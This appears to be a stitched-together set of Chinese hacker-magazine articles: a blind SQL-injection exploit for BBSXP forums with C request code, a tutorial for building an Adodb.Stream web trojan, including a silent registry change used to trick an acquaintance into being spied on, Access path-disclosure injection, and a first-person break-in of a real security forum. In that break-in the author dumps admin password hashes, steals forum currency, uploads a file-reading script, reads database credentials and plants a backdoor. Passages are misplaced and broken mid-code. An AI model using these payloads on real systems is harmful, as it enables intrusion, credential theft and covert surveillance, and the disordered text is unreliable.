继续分析下去。我们伪造 Cookie 可以猜出 md5 后的密码——当然也可以猜其他的，但是其他表里面没有什么有价值的东西，就盯死 User 这张表吧。简单起见，直接加一个查询的列就可以得到密码，这样一来 69 行的那句话一定会出现错误，因为 Message 和 User 两张表的字段不一样，出现 500 内部服务错误也是在所难免。不过这并不影响大局，所以也没有关系。

关于猜对猜错的问题，本来也应该是好好讨论一下的，好在上次基本上已经说了。还是上面的 3 句话，如果猜对了就顺利过关显示 500 错误；如果猜错了，Cookie 中的 name 就被置为空。可以想像，我们提交数据后，对方的服务器不可能直接来修改你的机器上的文件，所以一定是通过浏览器或者其他的东西来修改的，所以本地也没有很大的必要去打开 Cookie 文件来读，直接判断返回的数据好了。假设你对 HTTP 协议不是很熟悉，可以选择性地抓几个报文来分析，反正就是具有代表性的，比如 Cookie 是一个不存在的用户名，以及一个存在的用户名，多比较几个可以得到结果。这个冗长的过程我就不做了，直接给出一个答案，如果包含 `Set-Cookie: username=;`，那就是猜对。

# 漏洞利用

简单地分析完漏洞后就该考虑利用。因为 iecv 有小小的瑕疵，通过改 Cookie 一次次猜的话，速度上慢不说，单是为了避免用“=”注入就是很困难的，所以最好是尝试用自动化的方法来做。构造利用程序，用 Perl 好像要快一点，不过 C 是老本行，而且喜欢 C 的朋友多一些，我就还是用 C 来写了。

一般的利用注入来猜测表内容的程序大体构造上都一样，就是连接到对方的服务器，向 Web 服务的端口（通常是 80）发出我们精心构造的数据，本质上就是让手工猜测自动化，不过绕开了 IE 这一层而已。一次简单的提交需要包括动作、目标、协议以及其他的数据，最简单的应该是这样：

```http
GET /usercp.asp HTTP/1.1
Host: www.xxxx.com
```

其中 GET 是动作，采用这个动作传递过去的参数都是包含在 URL 中的，紧接着的 `/usercp.asp` 是要获取的页面地址，后面的 `HTTP/1.1` 是协议，第二行的 `Host: www.xxxx.com` 告诉对方网站名。这是一个能获得结果的最简单提交。如果有提交数据的话，在 `/usercp.asp` 后面可以跟上一个问号，然后加上其他信息，这个先不谈。进一步地，包含 Cookie 的提交如下：

```http
GET /usercp.asp HTTP/1.1
Host: www.xxxx.com
Cookie: eremite=0; userpass=F5BB0C8DE146C67B44BABBF4E6584CC0
```

Cookie 行表示后面的数据都是 Cookie，不同的 Cookie 用分号隔开，等于号前面是名，后面是值。有了上面的提交，服务器端 `request.cookie("userpass")` 返回的值就是 `F5BB0C8DE146C67B44BABBF4E6584CC0`。为了避免混淆，像“=”“;”这一类字符如果作为值出现的话，应进行编码，方法是用 `%` 后面加上字符对应的 16 进制 ASCII 码值，常见的空格是 `%20`，单引号是 `%27` 等等。特别地，空格还可以用 `+` 表示，而 `+` 本身编码后是 `%2B`。Cookie 是可以由客户端自主决定的，平时这些由 IE 帮我们管理，要伪造的时候，可以很容易地手工完成。比如我要伪造 Cookie 中的 admin 为 `' and '1'='1`，可以这么提交：

```http
GET /usercp.asp HTTP/1.1
Host: www.xxxx.com
Cookie: eremite=0; admin=%27+and+%271%27%3D%271
```

看起来有点眼花缭乱的，但仔细看看 `%27+and+%271%27%3D%271`，其实就是编码后的 `' and '1'='1`。

有了这些知识，就可以写程序了。流程很简单：连接到对方服务器 --> 提交一个完整的请求 --> 判断结果决定是否猜对 --> 断开连接。不断地改变我们的请求，不断地重复上面的步骤就可以获得答案。

为了程序的通用性，还要考虑让用户自主决定攻击的目标，所以让用户提交信息也是必要的。从用户那里，至少要知道目标地址、用户想得到密码的用户名，还有用户自己在上面注册的可用的用户名密码。获取信息之后，按照具体的情况加在提交的内容中。

这样，这就是一个完整的 exploit 了！

先构造一个模板，通常情况下可以抓一个典型的包。

```http
GET /bbs/usercp.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-powerpoint, application/msword, application/vnd.ms-excel, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: eremite=0; userpass=F5BB0C8DE146C67B44BABBF4E6584CC0; username=admin%27+and+1%3D%28select+count%28%2A%29+from+%5Buser%5D+where+username%3D%27victim%27+and+right%28left%28userpass,01%29%2C1%29%3D%270%27%29+and+userpass%3C%3E%27
```

还是把 Cookie 中的 username 写出来，那样看起来太难过了：

```sql
admin' and '1'=(select count(*) from [user] where username='victim' and right(left(userpass,01),1)='0') and userpass<>'
```

合法的用户名密码肯定是有待提供的，要猜的用户名也不固定，这两个对应的是 username 中的第一个 admin 和第一个 victim。left 函数中的“01”可以自动地生成，BBSXP 密码 md5 后有 32 位，所以这里是 01 一直到 32；right 函数外面的“='0'”是猜测的字符，md5 后字符可以是“0123456789ABCDEF”中的任意一个，可以做成一个字典，每次猜测取一个出来用。这样子套上两个循环，花点时间就可以把所有想要的东西跑出来了。

要写出程序，先把固定和变化的东西都分开，待变化的东西可以暂时确定的时候，组合起来发送即可。这里可以是这样子：

```c
char Var1[]="GET";
char Var2[]="/usercp.asp HTTP/1.1\r\n"
            "Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-powerpoint, application/msword, application/vnd.ms-excel, */*\r\n"
            "Accept-Language: zh-cn\r\n"
            "Accept-Encoding: gzip, deflate\r\n";
```

# 被人忽略的 Adodb.Stream

- 文／图：Lcx

# 网页木马



- 难度等级：中
- 适合对象：爱好脚本木马者
- 前置知识：ASP 脚本知识

脚本小子：有关网页木马在杂志上已经反复多次提及，但还有一种网页木马被很多人忽略了，媒体也鲜有提及，网络上也很少见，这就是——Adodb.Stream 网页木马！尽管这匹“小马”在网络上难得一见，但其威力不亚于一匹性格暴烈的烈马！

网页木马有很多种，根据其漏洞的不同，制作原理自然也就不一样。前些年最流行的是利用 MIME 漏洞制作的网页木马，Nimda 尼姆达蠕虫病毒是其中的佼佼者；近来网上风行的就是利用 Internet Explorer 的 Object Data 漏洞与 mhtml 文件重定向漏洞所做的网页木马。在网页木马制作方面，Adodb.Stream 漏洞却被人冷落了，网上鲜有利用这个漏洞制作的网页木马。

其实，这个漏洞也是非常可怕的。2003 年 11 月 05 日，www.malware.com 网站发布了一条公告，指出 Microsoft Internet Explorer 5.5 以上版本在处理包含嵌入可执行文件的页面时存在问题，远程攻击者可以利用 Adodb.Stream 对象写本地文件到本地系统，通过构建包含恶意脚本和可执行文件的自运行 HTML 文件，诱使用户访问，可导致任意文件写入、任意命令被执行。该网站指出除了 W2k/sp3/sp4 和 XP 外，其它所有 Windows 系统甚至包括 Win2003 都受此影响，并给出了一个完整的示例代码。下面我就给大家简单分析一下代码：

### 代码编写原理代码现学现卖

这一段代码，我在 W2k/sp3/sp4 情况下本地测试，成功运行了网页木马程序，见到了红红烟火，但在远程测试时，却没有什么好运气了，只打开了系统的记事本。我也将此段代码放在我的冰点极限论坛让会员测试，结果也有极少数人远程测试成功，估计都是 W2k/sp1/sp2 系统了，因为在 98 下正如我代码里注解的一样，默认是没有 Adodb.Stream 对象的，其实远程我们也可以在 W2k/sp3/sp4 下成功的，请继续往下看！

第一，先来给大家说一下，如何具体制作和利用这段代码。如果你想根据此漏洞制作你自己的网页木马，只需将 exe 木马转换成十进制数字，替换这段代码里的那一堆数字就行了。如何得到 exe 程序的十进制数字呢？我使用了一个比较笨的办法。先用 UltraEdit 打开 exe 程序，会看到 exe 的十六进制代码，图 1。



像图 1 中首行前三个是 4D、5A、90，那么再用 Windows 自带的计算器转换十进制为 77、90、144……这样一一转换，就会得到 exe 的全部十进制数字了。制作时你可要注意，不要选用太大的 exe 文件，要不转换成十进制的工作累死你，网页木马执行的时候也会很慢。

第二，这段代码想要在 W2k/sp3/sp4 情况下测试成功，可以将你放在远程站点的网页木马的远程站点加入 IE 的可信站点就可以了。像我将网页木马放在 `http://haiyangtop.html.533.net/m.html` 上，我只需打开 IE → Internet 选项 → 安全 → 可信站点 → 站点 → 添加，将此站点加入，图 2。



以后再打开此 URL 后，就可以成功运行代码中用十进制写的木马程序了。其实我们完全可以找 IE 的可信站点在注册表中的位置：

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\你的域名
```

哈哈，明白了吗？如果要把 `http://haiyangtop.html.533.net` 加入可信站点，只需将以下数值写入注册表即可：

```text
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\533.net\haiyangtop.html]
"http"=dword:00000002
```

你可以根据你的域名，来设定不同的键值将这段代码修改一下。聪明人都知道为什么要研究可信站点在注册表中的位置。我也实际测试了一下，我将这段代码保存成了 1.reg，然后写了一个简单的批处理 1.bat：

```text
regedit -s 1.reg

// regedit 加了 s 参数，在导入注册表时就不会有提示了，会悄无声息地将 1.reg 所有内容导入注册表
```

然后我将 1.reg 和 1.bat 用 WinRAR 压缩了一个可执行文件（我想这一点很多人都会了，很多人看过网上的那篇《永远不会被查杀的捆绑机》这篇文章，所以这里的具体做法我就不介绍了），将其发给了我 QQ 上的一个 MM，骗她执行了，然后过一阵，我再将我放有网页木马的网址发给她，哈哈，MM 就在我面前没有隐私了……

第三点我要说的是，能不能将修改注册表和这段代码同时执行呢？当然可以！《黑客防线》第 3 期那篇 mhtml 重定向漏洞分析的文章，作者说他写了一段代码修改注册表将可信站点加入 IE 中，并且躲过所有杀毒软件，可是我在光盘里翻了上下五千年也没有找到这段代码，看来是作者给我们留了点悬念了，于是我只好自己写一个，代码例子是将 `http://haiyanglop.html.533.net` 放入 IE 的可信站点：

```text
（代码省略，详细代码请看光盘）
```

不过我写的这段代码并不高明，会被杀毒软件查杀。哎，人小本事微也。你只要将这段代码和利用 Adodb.Stream 制作的代码先后顺序放在一个网页中即可，一个新的网页木马就诞生了。当 IE 运行这两段代码时，先会修改注册表将自身你定义的网站加入可信站点，然后就会运行你的网页木马了。

最后，我要说一下这个网页木马的防范办法，微软给出了两点建议：

- 第一点是如果是个人用户的话，完全没有必要使用 Adodb.Stream 控件，所以可以从注册表 `HKEY_CLASSES_ROOT\CLSID` 找到 Adodb.Stream 键值将其删除，其 CLSID 值为 `{00000566-0000-0010-8000-00AA006D2EA4}`。
- 第二点是想保留 Adodb.Stream 控件的话，请在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility` 这个位置下新建项 `{00000566-0000-0010-8000-00AA006D2EA4}`，然后再建一个双字节 `Compatibility Flags`，其值为 `00000400`。

我的建议是首先系统升级到 W2k/sp4 或更高系统 + IE 6.0 以上，这样修改注册表的网页木马自然就无效了。其次是升级杀毒软件到最新版本，及时防止利用这种漏洞所做的网页木马。第三是不要轻易运行陌生人发来的 QQ 附件或其它附件，对 HTML 格式的东东更要格外警惕。最后，老生常谈的是不去登录未知站点，尤其是域名具有诱惑性的站点，将 IE 的安全级别设高或默认，在有必要的情况下关闭 IE 的 ActiveX 脚本。

# Access 惊现又一漏洞

- 文／AMANL

如今 SQL injection 可是真火爆，诸多新的 Injection 方式被挖掘出来，利用系统错误来爆路径更是热门话题，今天我也来凑个热闹，跟大家一起来学习学习——物理路径是 ACCESS 数据库的灵魂，如果得到路径，一切都将暴露在光天化日之下，偶然间发现了新的办法，兴奋不已。

## 测试

```sql
select * from news where id=3 union select * from admin
in 'c:\Customers.mdb'
```

系统提示：

```text
Microsoft JET Database Engine 错误 '80004005'
找不到文件 'c:\Customers.mdb'。
```

使用：

```sql
select * from news where id=3 union select * from admin
in 'c:\winnt\system32\cmd.exe'
```

系统提示：

```text
Microsoft JET Database Engine 错误 '80004005'
Microsoft Jet 数据库引擎打不开文件 'c:\winnt\system32\CMD.EXE'。它已经被别的用户以独占方式打开，或没有查看数据的权限。
```

这种方式的实现比起用 `and 0<>(select count(*) from admin)` 查询的结果显得更为简明了，而且猜测的是 MDB 后缀的文件，猜测的路径和文件名正确的话，信息会正常显示；如果是猜测非 MDB 的文件则是这样的：

执行：

```sql
select * from news where id=3 union select * from admin
in 'e:\www\include\connect.asp'
```

返回：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80004005'
[Microsoft][ODBC Microsoft Access Driver] 不可识别的数据库格式 'e:\www\include\connect.asp'
```

证明所猜测的路径和文件是正确的。

由于 Access 本身的缺陷，使 SQL INJECTION 的方式层出不穷，但很大一方面是由于程序员在书写程序的时候，不注意防范，麻痹大意。针对有传值的 SQL 语句进行详细的过滤，起码也是阻挡 SQL INJECTION 的一道门。Access 本身的缺陷使很多漏洞防不胜防，建议返回统一服务器出错信息，创建一个自己的 Web 信息出错页面，这样一来就没有可参考的出错信息了，稍微有点防范意识。

脚本小子：HS（由于某方面原因，具体名称屏蔽……）是国内很大的一个安全技术论坛，聚集了很多安全爱好者，而本文算得上是和 HS 的一次安全交流吧。本文向你详尽介绍了作者通过 VBB 论坛的漏洞进入 HS 的全过程，我们不得不再一次承认 SQL 注入的确是剑走偏锋……



# 入侵国内某大型安全论坛手记

HS 论坛是一个人气很不错的黑客技术站点，也是当年培养我成长的地方。一日，闲来无事，想测试 PHP 的安全性，目标自然就选择了 HS，看看 HS 论坛用的版本，vBulletin Forum 2.3.0。

在 vBulletin Forum 2.3.0 版本的 calendar.php 程序中，存在着一个 SQL Injection 漏洞，哈哈，有戏。

## 前期测试

相关代码如下：

```php
else if ($action == "edit")
{
    $eventinfo = $DB_site->query_first("SELECT allowsmilies,
    public, userid, eventdate, event, subject FROM calendar_events WHERE
    eventid == $eventid");

    if ($eventinfo[userid] != $bbuserinfo[userid])
    {
        $permissions = getpermissions();
        if ($permissions[canpublicedit] != 1) {
            show_nopermission();
        }
    }
}
```

OK，我们可以看到 eventid 没有过滤，所以下面我们来构造语句进行注射。如果论坛使用的 MySQL 版本在 4.00 以上，就可以进行 UNION 攻击，至于如何查看 MYSQL 版本就不多说了，利用注射就可以做到。攻击演示语句如下：

```text
http://bbs.is***.com/calendar.php?
action=edit&eventid=12 union (SELECT allowsmilies,public,userid,
'0000-0-0',user(),version() FROM calendar_events WHERE
eventid == 13) order by eventdate
```

此时 query_first 函数将只返回第一行的查询结果，如果存在漏洞，我们将看到 MYSQL 的版本和 MYSQL 的用户。如果我们构造好，就可以得到数据库的任何内容，当然包括 USER 表中的密码。

现在开始对 HS 进行测试：

```text
http://bbs.is***.com/calendar.php?
s=&action=edit&eventid=10 union (SELECT allowsmilies,public,
userid,'0000-0-0',user(),version() FROM calendar_events
WHERE eventid == 10) order by eventdate
```

我们看到了结果：

```text
4.0.2-alpha-nt ——出现在标题栏——就是我们的 user() 函数
is***.vbb@localhost ——事件内容里——我们的 version() 函数
```

再来：

```text
http://bbs.is***.com/calendar.php?
s=&action=edit&eventid=10 union (SELECT allowsmilies,public,
userid,'0000-0-0',pass(),version() FROM calendar_events
WHERE eventid == 10) order by eventdate
```

返回：

> 看起来 HS 安全资讯站技术讨论区数据库发生了一些微小的错误。
>
> 请按浏览器的“刷新”按钮重试。
>
> 一封 E-Mail 已经发送给技术支持信箱。如果问题仍然存在，你也可以直接联系。
>
> 对给你造成的不便我们深表歉意。

上面是构造错误，产生错误的 MYSQL 语法时出现的提示还不够，继续提交。

```text
http://bbs.is***.com/calendar.php?s=&action=edit&eventid=10 union (SELECT allowsmilies,public,userid,'0000-0-0',now(),database() FROM calendar_events WHERE eventid = 10) order by eventdate
```

返回版本“vbb”，继续：

```text
http://bbs.is***.com/calendar.php?s=&action=edit&eventid=10 union (SELECT allowsmilies,public,userid,'0000-0-0',user(),md5(123456) FROM calendar_events WHERE eventid = 10) order by eventdate
```

返回“e10adc3949ba59abbe56e057f20f883e”，加密的东西，讨厌，再测试了几个函数，都成功了，看来今天 HS 要倒霉了，嘿嘿。

## 实战关键

下面来构造取密码的语句，测试 UNION：

```sql
SELECT allowsmilies,public,userid,eventdate,event,subject FROM calendar_events WHERE eventid = 1 union (select 1,1,1,1,1,1 from user where userid=1)
```

MySQL 返回：“The used SELECT statements have a different number of columns”。看来字段不相等，发生错误。接着本地测试：

```sql
SELECT allowsmilies,public,userid,eventdate,event,subject FROM calendar_events WHERE eventid = 1 union (select 1,1,1,1,username,password from user where userid=1)
```

返回：

| allowsmilies | public | userid | eventdate | event      | subject                          |
|---|---:|---:|---|---|---|
| Edit Delete | 1 | 1 | 2000-00-01 | welcomesay | 6a204bd89f3c8348afd5c77c717a097a |

返回成功了，看来我们的句子这样构造就行了。回到 HS 论坛来，继续提交：

```text
http://zerolu.vicp.net/calendar.php?s=&action=edit&eventid=11 UNION (SELECT 1,0,2,'1999-01-01','a',password FROM user WHERE userid = 5) order by eventdate
```

哈哈！成功，可以显示任何人密码！直接取管理员密码：

```text
http://bbs.is***.com/calendar.php?action=edit&eventid=12 UNION (SELECT 1,0,12695,'1999-01-01','a',password FROM user WHERE userid=13465) order by eventdate
```

哈哈，管理员密码拿到了，我们登录看看：

欢迎你回来 ***！

成功了！和他开个玩笑，进银行，将他仅有的 192 个金币转走，嘻！

```text
http://bbs.is***.com/calendar.php?action=edit&eventid=12 UNION (SELECT 1,0,12695,'1999-01-01','a',userid FROM user WHERE username='Sandf***') order by eventdate
```

返回“6565”，上面用来查 SANDF*** 的 USERID 多少，单引号也可以使用，哈哈，有意思，继续提交：

```text
http://bbs.is***.com/calendar.php?action=edit&eventid=12 UNION (SELECT 1,0,12695,'1999-01-01',username,password FROM user WHERE userid=6565) order by eventdate
```

哈哈，USERID=6565 的用户名和密码出来了，然后当然是登录偷他钱了，哼！返回如下：

```text
—— 欢迎你回来：Sandf***
用户名：Sandf***
总资产：1582414
现金：
存款：1582413
```

哇，有钱！先拿他 100 万，给他留点。提交 `http://bbs.is***.com/showgroups.php` 来查看了一下管理员情况，有三个哦！本来是 32 位密码，去掉前后 8 位后是 16 位的了。

| 用户名 | USERID | 密码片段 |
|---|---:|---|
| Sandf*** | 6565 | d82f53035a031ff0 |
| Psk*** | 13384 | c429cd6be979bb0a |
| IpFilter*** | 9914 | 6a31ceb936eeef23 |

进入后台：29175183——Sandf***，呵呵，破出的密码，幸好是数字。然后来到表情符号上传，这样就可以开始上传 PHP 文件了。另外要备份数据库也很简单，都是现成提供好的功能了，呵呵。再写个小程序：

```php
<?readfile($heiye)?>
```

`heiye.php`

```text
http://bbs.is***.com/images/smilies/heiye.php?a=..\..\admin\config.php
```

```text
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)\r\n
Host: "

char Var3[]="\r\n"
"Connection: Keep-Alive\r\n"
"Cookie: eremite=0; userpass="
char Var4[]="; username=";
char Var5[]="%27+and+1%3d%28select+count%28*%29+from+%5Buser%5D+where+username%3d%27";
char Var6[]="%27+and+right%28left%28userpass%2c";
char Var7[]="%29%2c1%29%3d%27";
char Var8[]="%27%29'+and+userpass%3c%3e%27\r\n\r\n";
```

另外一个想法，就是关于构造字符串的问题（这里的构造和前面的意思不太一样，不仅仅是注入内容的构造）。大一点来看，所有的通信与交流都是一系列的字符串，如果能够有比较好的工具可以做到随心所欲地生成想要的字符串并且发送，对漏洞检测和漏洞利用都是非常方便的。当然这只是想法，如果有人能够写出完美的东西来，一定可以得到广泛应用，毕竟现有的工具，比如所谓的通用注入工具还有 Spike 等等，都显得功能不够或者根本就太简单。

Var1 加上对方 BBS 的相对路径和 Var2 就可以构造出提交请求的前一部分。然后加上对方的域名，接下来加上 Var3，并且加上你的合法用户密码，再加上 Var4 和你的合法用户名，这里就构成了提交请求中 Cookie 的合法部分。Var5 后面要加上待猜测的用户名和 Var6，剩下的 Var6 和 Var7，还有 Var7 和 Var8 之间就是循环所控制的密码的位数还有密码的猜测内容。程序很简单，但是贴出来的话还是稍微嫌长了一点，光盘里面附带有，可以去看看，也可以自己改一下。

说道这里，附带一句，既然这一类的东西都有相同的结构，其实只要搭上一个框架，以后写起来就方便更多了。

## 总结战果

最后总体谈谈 BBSXP 吧，它们以前的版本好像还有点防范，最新的这个除了漂亮以外就没有什么可圈可点的地方了。大家写写程序练练手的话可以选择安装一个，应用的话还是劝用别的好那么一点点（好得也是非常有限的）。写这个东西也是挑最简单的来原理性地说说，不知道有没有玉砸过来：）

# 编后语

盼了好久的 BBSxp 终于又浮出了水面。为了测试你的 BBSxp 是否存在类似的漏洞，请用我们为你提供的测试程序：BBSxp.cpp，我们已经收录进了光盘。

示的，不过察看源代码就可以看到了。

```php
// Please note that if you get any errors when connecting...
// that you will need to email your host as we cannot tell
// you what your specific values are supposed to be
// type of database running
// (only mysql is supported at the moment)
$dbservertype='mysql';
// hostname or ip of server
$servername='localhost';
// username and password to log onto db server
$dbusername='is***vbb';
$dbpassword='vbb139';
// name of database
$dbname='vbb';
// technical email address - any error messages will be emailed here
$technicalemail='webmaster@is***.com';
// use persistent connections to the database
// 0 = don't use
// 1 = use
$usepconnect=0;
?>
```

OK，这样就能看见MYSQL密码了，这里他限制外部连接了，后来又写了些小脚本上去，因为他禁止了调用CMD，所以只能利用PHP内部函数了，提交“http://bbs.is***.com/admin/temp3.php?c=dir&f=d:”，返回D盘下的文件。

```text
bbs mysql RECYCLER Sandf*** System Volume Information
temp
```

提交

```text
http://bbs.is***.com/admin/temp3.php?c=dir&f=c:\**firewall\
```

返回C:\**firewall\目录下的文件，防火墙不错：

```text
config.ini drivers install install.bat InterfaceDLL.dll IPControlService.exe IPFMonitor.exe password.key systemfilters.txt uninstall.bat
```

再提交

```text
http://bbs.is***.com/admin/temp3.php?c=file&f=c:\**firewall\config.ini
```

返回信息说明是指向本地的：

```text
server=127.0.0.1:18
```

再来看看安装的参数，提交“http://bbs.is***.com/admin/temp3.php?c=file&f=c:\**firewall\install.bat”，返回：

```text
ipfcontrolservice -r ; ipfcontrolservice -s :44
```

看看配置情况，提交“http://bbs.is***.com/admin/temp3.php?c=file&f=c:\**firewall\systemfilters.txt”，返回：

For test only，允许自己用ping命令探测其他机器。Filter { name = 允许自己用ping命令探测其他机器 description = 防止别人用ping命令探测 protocol = ICMP ICMP_Type = 0 receive pass }

防止别人用ping命令探测。Filter { name = 防止别人用ping命令探测 description = 防止别人用ping命令探测 protocol = ICMP icmp_type = 8 receive }

HTTP protocol filter { name = 禁止HTTP协议（80端口） description = 禁止HTTP协议（80端口） protocol = TCP tcp_remoteport = 80 send receive }

看了些文件，觉得没意思，系统防护方面还是不错的，可惜脚本让我们找到了漏洞，现在能改论坛首页了，不过我们的目的是检测，没有破坏的意思，所以就没有做了，毕竟对HS有感情——不过后来找了个帮助页，插进了我们的后门代码，走人，哈哈。

# 编后语

